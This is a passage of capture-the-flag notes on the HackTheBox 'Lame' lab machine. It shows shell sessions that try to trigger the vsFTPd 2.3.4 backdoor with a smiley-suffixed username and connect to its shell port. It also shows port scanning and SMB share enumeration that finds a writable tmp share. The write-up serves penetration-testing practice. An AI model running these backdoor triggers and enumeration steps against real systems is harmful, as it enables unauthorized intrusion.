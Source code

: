 ```sh
❯ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
user blah :)
331 Please specify the password.
pass pass
530 Login incorrect.  # maybe no space allowed?
user user:)
331 Please specify the password.
pass pass
# hangs

❯ nc -v 10.10.10.3 6200
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: TIMEOUT.
# just times out every time?

# checking for other port being opened?
❯ sudo rustscan --ulimit 5000 -a 10.10.10.3 -- -n -Pn
# just see same as before
```

Tried without my VPN to see if that was the issue, but still getting timeout error?

Back to drawing board. Looking at SSH exploit 45001, it appears to rely on known user creds, but we don't have those. Unlikely but possible future privesc vector.

After review of https://seclists.org/fulldisclosure/2014/Oct/35, don't think it's useful. Helps get around restrictions on command execution, but that's it.

Noted DNS names in SMB enum:

- hackthebox.gr
- lame.hackthebox.gr

Added to /etc/hosts

Checking out SMB service

```sh
❯ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: hackthebox.gr
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

Read/write on tmp!

```sh
❯ smbmap -R -H 10.10.10.3
	.\tmp\*
	dr--r--r--                0 Sat Apr 30 20:21:13 2022	.
	dw--w--w--                0 Sat Oct 31 02:33:57 2020	..
	dr--r--r--                0 Sat Apr 30 19:38:25 2022	.ICE-unix
	dw--w--w--                0 Sat Apr 30 19:38:54 2022	vmware-root
	dr--r--r--                0 Sat Apr 30 19:38:51 2022	.X11-unix
	fw--w--w--                0 Sat Apr 30 19:39:28 2022	5560.jsvc_up
	fw--w--w--               11 Sat Apr 30 19:38:51 2022	.X0-lock
	fw--w--w--             1600 Sat Apr 30 19:38:22 2022	vgauthsvclog.txt.0
	.\tmp\.X11-unix\*
	dr--r--r--                0 Sat Apr 30 19:38:51 2022	.
	dr--r--r--                0 Sat Apr 30 20:21:13 2022	..
```
